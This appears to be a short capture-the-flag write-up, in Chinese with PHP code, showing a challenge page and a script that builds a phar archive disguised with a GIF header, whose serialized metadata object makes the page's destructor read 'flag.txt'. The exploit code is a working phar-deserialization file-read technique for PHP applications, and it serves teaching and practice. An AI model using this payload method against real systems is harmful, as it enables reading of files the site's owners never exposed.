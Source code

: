 ```php
    $web->file = $_GET['file'];
    $web->show_fakenews();
}
else{
    echo "file=web_content";
    echo "<br><br><br>";
    highlight_file(__FILE__);
    exit();
    
}
?>
/*--------------------------------------------生成phar文件--------------------------------------------*/
//找个地方执行下这个脚本，得到phar文件
<?php
//先把phar.readonlly设置为Off
//把要进行反序列化的对象放在此处
class web_content
{
    public $file = "fake.txt";
    function show_fakenews()
    {
        echo "Here is today's fake news!<br>";
        echo file_get_contents("fake.txt") ."<br>";
    }

    function __destruct()
    {
        echo "Breaking news! at file: ".$this->file."<br>";
        if($file === "fake.txt")
        {
            echo "oops, I am a fake media.";
            exit();
        }


        echo file_get_contents($this->file) ."<br>";

    }
}
    //生成对应可被利用的对象
    $o = new web_content();
    $o->file='flag.txt';


    @unlink("phar.phar"); //删除原有文件
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头用以欺骗检测，虽然我的题里没有检测
    $phar->setMetadata($o); //将自定义meta-data存入manifest，这里是关键
    $phar->addFromString("test.txt", "testlalalalal"); //添加要压缩的文件，这里没有用到文件里的内容所以随便填
    $phar->stopBuffering();//添加签名并结束生成
?>
```
利用phar反序列化覆盖file变量  
![](imgs/phar_unserialize.png)
